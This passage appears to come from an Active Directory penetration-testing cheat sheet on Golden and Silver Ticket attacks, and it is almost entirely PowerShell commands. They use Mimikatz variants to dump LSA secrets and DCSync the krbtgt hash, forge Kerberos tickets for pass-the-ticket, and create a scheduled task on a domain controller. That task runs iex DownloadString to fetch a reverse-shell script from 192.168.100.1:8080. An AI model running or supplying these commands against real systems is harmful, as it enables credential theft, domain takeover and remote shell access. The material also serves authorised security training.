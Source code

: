 ```powershell
Invoke-Mimikatz -Command '"lsadump::lsa /patch"' -Computername dcorp-dc

# Create a ticket on any machine [ "pass the ticket" attack]
Invoke-Mimikatz -Command '"kerberos::golden /User:Administrator /domain:abc.xyz.local /sid:S-1-5-21-268341927-... /krbtgt:a9b30e5bO0dc... /id:500 /groups:512 /startoffset:0 /endin:600 /renewmax:10080 /ptt"'

# List Kerberos services available
klist

# To use the DCSync feature for getting krbtgt hash execute the below command with DA privileges
Invoke-Mimikatz -Command '"lsadump::dcsync /user:dcorp\krbtgt"'
```

---

##### Binaries

###### Using SafetyKatz

```powershell
C:\Users\Public\SafetyKatz.exe "lsadump::lsa /patch" "exit" 
or
SafetyKatz.exe "lsadump::dcsync /user:us\krbtgt" "exit"
```

###### On a machine which can reach the DC over network (Need elevation):

```powershell
BetterSafetyKatz.exe "kerberos::golden /User:Administrator /domain:us.techcorp.local /sid:S-1-5-21-210670787-... /krbtgt:b0975ae... /startoffset:0 /endin:600 /renewmax:10080 /ptt" "exit"
```

### Silver Ticket

##### Invoke-Mimikatz

```powershell
# Execute mimikatz on DC as DA to get krbtgt hash
Invoke-Mimikatz -Command '"lsadump::lsa /patch"' -Computername dcorp-dc

# Using hash of the Domain Controller computer account, below command provides access to shares on the DC
Invoke-Mimikatz -Command '"kerberos::golden /domain:abc.xyz.local /sid:S-1-5-21-268341927-... /target:dcorp-dc.abc.xyz.local /service:CIFS /rc4:6f5b5acaf... /user:Administrator /ptt"'

# Schedule and execute a task
schtasks /create /S dcorp-dc.abc.xyz.local /SC Weekly /RU "NT Authority\SYSTEM" /TN "STCheck" /TR "powershell.exe -c 'iex (New-Object Net.WebClient).DownloadString(''http://192.168.100.1:8080/Invoke-PowerShellTcp.psi''')'"

schtasks /Run /S dcorp-dc.abc.xyz.local /TN "STCheck"
```
